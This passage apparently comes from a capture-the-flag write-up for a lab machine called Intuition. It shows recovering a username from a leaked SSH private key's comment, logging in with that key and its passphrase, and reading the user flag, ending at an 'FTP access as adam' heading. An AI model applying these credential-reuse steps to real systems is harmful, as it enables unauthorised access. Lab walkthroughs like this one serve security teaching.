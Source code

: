 ![](/assets/images/Intuition/Pasted%20image%2020240909130820.png)

If I try changing the comment, I can see it has a comment "dev_acc@local", which seems like a user:

```bash
❯ ssh-keygen -c -f privkey
Enter passphrase: Y27SH19HDIWD
Old comment: dev_acc@local
```

Now, I can login to ssh with that user:

```bash
❯ ssh -i privkey dev_acc@10.10.11.15
Enter passphrase for key 'privkey': Y27SH19HDIWD
dev_acc@intuition:~$ 
```

And user.txt is available in home's directory:

```bash
dev_acc@intuition:~$ ls -l
total 4
-rw-r----- 1 root dev_acc 33 Sep  9 04:06 user.txt
dev_acc@intuition:~$ cat user.txt 
32****************************f1
```

# FTP access as adam